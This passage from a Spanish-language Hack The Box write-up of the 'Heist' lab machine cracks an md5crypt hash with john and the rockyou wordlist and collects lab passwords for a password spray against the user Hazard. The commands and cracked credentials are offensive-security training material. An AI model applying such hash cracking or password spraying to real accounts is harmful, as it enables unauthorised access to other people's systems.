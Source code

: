 - Esta es del otro hash.

<p align="center">
<img src="/assets/images/htb-writeup-heist/6.png">
</p>

- Podemos aplicar un `PasswordSpray` para probar las credenciales que tenemos y el usuario Hazard.

```bash
➜  content cat users.txt
admin
rout3r
hazard
```

- Si recordamos también nos dan un hash.

```bash
➜  content cat hash
$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```

- Podemos usar `john` para crackearlo y añadirlo a nuestra lista para poder aplicar el `password spray`.

```bash
➜  content john -w:/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 512/512 AVX512BW 16x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (?)
1g 0:00:00:32 DONE (2024-04-13 15:00) 0.03101g/s 108732p/s 108732c/s 108732C/s stealthy001..ste88dup
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

- Estas son las contraseñas que tenemos.

```bash
➜  content cat creds.txt
Q4)sJu\Y8qz*A3?d
$uperP@ssword
stealth1agent
```
